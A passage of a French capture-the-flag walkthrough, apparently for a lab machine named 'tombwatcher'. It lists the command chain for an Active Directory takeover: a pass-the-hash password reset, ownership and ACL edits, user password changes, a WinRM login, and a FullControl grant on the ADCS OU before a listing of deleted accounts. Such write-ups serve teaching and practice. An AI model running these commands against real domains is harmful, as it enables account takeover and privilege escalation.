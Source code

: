 ```bash
pth-net rpc password "sam" 'NewP@ssword1234!' -U "tombwatcher"/"ansible_dev$"%"91366223f82cd8d39b0e767f0061fd9a":"1c37d00093dc2a5f25176bf2d474afdc" -S "10.10.11.72"
```

Ensuite, avec **impacket-owneredit** et **impacket-dacledit**, modification des droits de SAM pour contrôler JOHN.


```bash
impacket-owneredit tombwatcher/sam:NewP@ssword1234! -dc-ip 10.10.11.72 -action write -new-owner sam -target john
```

![[Pasted image 20250610044537.png]]

```bash
impacket-dacledit tombwatcher/sam:NewP@ssword1234! -dc-ip 10.10.11.72 -action write -rights 'FullControl' -principal 'sam' -target 'john'
```

![[Pasted image 20250610045545.png]]

-Modification du mot de passe de JOHN via **bloodyAD** :

```bash
python3 bloodyAD.py -u 'sam' -p 'NewP@ssword1234!' -d tombwatcher.htb --dc-ip 10.10.11.72 set password john 'NewPassword123!
```

![[Pasted image 20250610045858.png]]

```bash
evil-winrm -i 10.10.11.72 -u john -p'NewPassword123!'
```

![[Pasted image 20250610050119.png]]

# ROOT
Escalade de privilege sur la gestion des certificats

Avec JOHN, modification des permissions ACL sur l’OU `ADCS`

```bash
impacket-dacledit -action write -rights FullControl -inheritance -principal 'john' -target-dn 'OU=ADCS,DC=tombwatcher,DC=htb' tombwatcher.htb/john:'NewPassword123!' -dc-ip 10.10.11.72
```

Liste des comptes utilisateurs supprimés dans l’OU `ADCS`

```powershell
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects -Properties objectSid,lastKnownParent,ObjectGUID | Select-Object Name,ObjectGUID,objectSid,lastKnownParent | Format-List
```


```
Name            : cert_admin
                  DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
ObjectGUID      : f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
objectSid       : S-1-5-21-1392491010-1358638721-2126982587-1109
lastKnownParent : OU=ADCS,DC=tombwatcher,DC=htb

Name            : cert_admin
                  DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
ObjectGUID      : c1f1f0fe-df9c-494c-bf05-0679e181b358
objectSid       : S-1-5-21-1392491010-1358638721-2126982587-1110
lastKnownParent : OU=ADCS,DC=tombwatcher,DC=htb

Name            : cert_admin
```